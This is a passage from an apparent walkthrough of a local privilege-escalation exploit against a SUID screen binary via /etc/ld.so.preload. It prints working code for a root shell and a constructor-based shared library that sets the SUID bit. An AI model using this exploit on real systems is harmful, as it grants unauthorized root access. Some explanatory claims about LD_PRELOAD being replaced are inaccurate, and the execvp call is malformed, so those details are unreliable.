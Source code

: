 In older linux distributions there is an envirnonment variable called `LD_PRELOAD`. Creating our own shared library and setting `LD_PRELOAD`  equal to that library will order the linker to first load that library and then anything else. But what happens if our custom library contained a `printf` declaration? In this case, we will overwrite the **actual** declaration of `printf` inside **libc** with our own!
Fortunately, `LD_PRELOAD` is disabled by default for executables that have the **SUID** bit enabled or handle files.

In more modern systems that environment variable was replaced with `ld.so.preload`. This file doesn't have the **SUID** limitations of `LD_PRELOAD` because it resides in the `/etc` directory, and if you can write to `/etc` you are probably already **root**.

But this is not the case for us. `screen` is **SUID-Enabled** and due to a bug can write to any file!

Let's examine the code in the provided link.

```c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
```
In the first part `cat << EOF > /tmp/rootshell.c` means to put the following lines in `rootshell.c` until `EOF` is received.
The **C** code effectively makes sure that we are running as **root** and then will execute `/bin/sh`.
After `EOF` we see the compilation command and the deletion of the source file.

Now the shared library part.

```c
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
```
